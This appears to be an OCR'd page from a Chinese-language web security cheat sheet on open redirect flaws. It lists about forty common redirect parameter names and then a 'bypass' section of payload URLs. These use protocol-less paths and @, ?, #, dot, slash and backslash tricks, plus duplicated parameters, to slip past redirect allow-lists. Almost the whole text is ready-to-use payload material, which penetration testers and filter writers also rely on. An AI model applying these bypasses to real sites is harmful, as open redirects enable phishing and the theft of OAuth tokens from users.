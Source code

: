    ```
   linkto=
   domain=
   Out=
   Dout=
   go=
   return=
   returnTo=
   logout=
   register=
   login=
   returnUrl=
   path=
   redirectURI=
   redir=
   returl=
   share=
   wap=
   src=
   source=
   u=
   display=
   sourceURl=
   imageURL=
   linkurl=
   RedirectUrl=
   service=
   redirect_uri=
   destUrl=
   oauth_callback=
   oauth=
   goto=
   redirectUrl=
   callback=
   return_url=
   toUrl=
   ReturnUrl=
   fromUrl=
   redUrl=
   request=
   ```

3. bypass

   ```
   无协议头绕过
   https://debian.local/redirect.php?url=/www.example.com
   https://debian.local/redirect.php?url=\www.example.com
   https://debian.local/redirect.php?url=//www.example.com
   https://debian.local/redirect.php?url=///www.example.com
   https://debian.local/redirect.php?url=www.example.com
   @ 绕过 
   http://debian.local/redirect.php?url=http://debian.local@example.com
   ? 绕过
   http://debian.local/redirect.php?url=http://example.com?debian.local
   . 绕过
   http://debian.local/redirect.php?url=http://debian.local.example.com
   # 绕过
   http://debian.local/redirect.php?url=http://example.com#debian.local
   / 绕过，可以尝试多个正斜杠一起用，如/、//、///
   http://debian.local/redirect.php?url=http://example.com/debian.local
   \ 绕过
   http://debian.local/redirect.php?url=http://example.com\debian.local
   双写参数 绕过
   http://debian.local/redirect.php?url=http://debian.local&url=http://example.com
   ```
